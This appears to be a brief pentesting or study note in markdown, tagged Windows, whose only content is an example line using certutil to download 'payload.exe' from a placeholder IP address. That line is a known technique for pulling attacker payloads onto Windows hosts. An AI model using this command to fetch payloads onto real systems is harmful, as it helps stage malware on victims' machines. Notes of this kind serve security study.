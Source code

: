 ```yaml
---
created: 2024-12-21

---
```

-------------------
- tags: #windows 
-----------------

## Ejemplo
	certutil -urlcache -f http://x.x.x.x/payload.exe payload.exe 


